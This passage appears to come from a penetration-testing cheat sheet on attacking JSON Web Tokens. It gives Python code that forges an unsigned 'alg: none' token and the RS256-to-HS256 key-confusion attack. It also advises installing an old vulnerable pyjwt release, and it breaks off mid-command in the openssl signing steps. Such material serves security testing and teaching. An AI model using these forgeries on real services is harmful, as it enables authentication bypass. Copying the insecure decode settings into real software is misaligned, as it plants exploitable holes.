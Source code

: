 ```python3
#!/usr/bin/python3
# -*- coding: utf-8 -*-

import jwt

jwtToken 	= 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6InRlc3QiLCJpYXQiOiIxNTA3NzU1NTcwIn0.YWUyMGU4YTI2ZGEyZTQ1MzYzOWRkMjI5YzIyZmZhZWM0NmRlMWVhNTM3NTQwYWY2MGU5ZGMwNjBmMmU1ODQ3OQ'

decodedToken 	= jwt.decode(jwtToken, verify=False)  					# Need to decode the token before encoding with type 'None'
noneEncoded 	= jwt.encode(decodedToken, key='', algorithm=None)

print(noneEncoded.decode())

"""
Output:
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJsb2dpbiI6InRlc3QiLCJpYXQiOiIxNTA3NzU1NTcwIn0.
"""
```

## JWT Signature - RS256 to HS256

Because the public key can sometimes be obtained by the attacker, the attacker can modify the algorithm in the header to HS256 and then use the RSA public key to sign the data.

> The algorithm HS256 uses the secret key to sign and verify each message.
> The algorithm RS256 uses the private key to sign the message and uses the public key for authentication.

```python
import jwt
public = open('public.pem', 'r').read()
print public
print jwt.encode({"data":"test"}, key=public, algorithm='HS256')
```

:warning: This behavior is fixed in the python library and will return this error `jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.`. You need to install the following version: `pip install pyjwt==0.4.3`.

Here are the steps to edit an RS256 JWT token into an HS256

1. Convert our public key (key.pem) into HEX with this command.

    ```powershell
    $ cat key.pem | xxd -p | tr -d "\\n"
    2d2d2d2d2d424547494e20505[STRIPPED]592d2d2d2d2d0a
    ```

2. Generate HMAC signature by supplying our public key as ASCII hex and with our token previously edited.

    ```powershell
    $ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6IjIzIiwidXNlcm5hbWUiOiJ2aXNpdG9yIiwicm9sZSI6IjEifQ" | openssl dgst -sha256 -mac HMAC -macopt hexkey:2d2d2d2d2d424547494e20505[STRIPPED]592d2d2d2d2d0a
